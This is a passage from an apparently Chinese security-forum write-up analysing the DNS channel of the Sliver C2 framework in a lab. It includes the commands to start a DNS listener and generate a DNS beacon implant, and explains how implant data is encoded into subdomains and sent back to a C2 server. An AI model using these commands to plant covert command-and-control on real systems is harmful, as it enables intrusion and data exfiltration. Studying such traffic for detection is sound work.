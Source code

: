 ![p9VRvz6.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-7fe3ad73f46585de4e40bfb27aa6c4049d106ed2.png)

### 5.2 DNS 通信分析

> 工作原理：在子域名中填充编码数据，向恶意DNS服务器发送该子域的查询。

同样，也是先创建监听器，不同于之前的创建方式，这里需要指定监听的域名。官方建议使用FQDN（完全限定域名），因此在一个域名最后添加一个点`.`，表示根域名

```shell
dns -d dnsc2.labnet.local.
```

![p9VW5tA.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-bd5aa2268680f22a16364392db9d4abc97943fe6.png)  
生成 DNS beacon ，指定域名并设定回连间隔为10秒

```php
generate beacon --dns dnsc2.labnet.local --seconds 10 --jitter 0 
```

执行后，在WireShark中记录了beacon产生的流量。其中有很多对dnsc2.labnet.local的子域的A记录的DNS查询，以及一个TXT记录的查询。  
![p9VWJS0.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-3cbbb0323796c2eb200620883ed8d018a2fa0e9d.png)  
深入分析原理，**当Implant向服务器发送数据时，会在子域名中填充编码后的数据**，然后发送给目标DNS服务器，而服务器向Implant发送数据时会使用TXT查询，将数据返回给Implant。但由于域名长度限制为254字符（包括子域名和根域名），而每个子域名最大长度为63个字符，因此不建议进行大文件上传下载操作。（理想速率：30Kbps）

进一步，根据[官方文档](https://github.com/BishopFox/sliver/wiki/DNS-C2)，这里的编码方式主要有两种：Base32和Base58。由于DNS是一个对大小写不敏感的协议，Base32对大小写不敏感，可以直接使用；Base58对大小写敏感，但其速度更快。所以默认情况下 Sliver 会首先验证Base58能否使用，否则使用Base32。当然如果想指定编码，可以使用如下命令：

```shell
generate beacon --dns dnsc2.labnet.local?force-base32=True
```

Sliver C2 DNS 通信在设计中在隐蔽性和速度上选择了后者（两者不可兼得），如果做的太隐蔽会在速度上大打折扣，对实际使用非常不友好。然而，在实际场景中，除非有专门的检测DNS C2工具或蓝队人员，一般都不会对DNS流量进行监测，所以设计上偏向于在传输速度这一方面。

最后在 DNS 日志中记录了响应的通信流量  
![p9VWTpt.png](https://shs3.b.qianxin.com/attack_forum/2023/04/attach-306d7db3822b123728d8fdf5e359be3f68e6f874.png)

六、后记
----

断断续续研究了几天，在自建环境中由浅入深分析了Sliver C2中4种协议通信的过程，涉及到命令和数据是如何在服务器和植入木马中进行通信传输、隐蔽交互的。后续可能还会补充这些通信协议在源码中的实现解读，有点硬核但很有趣。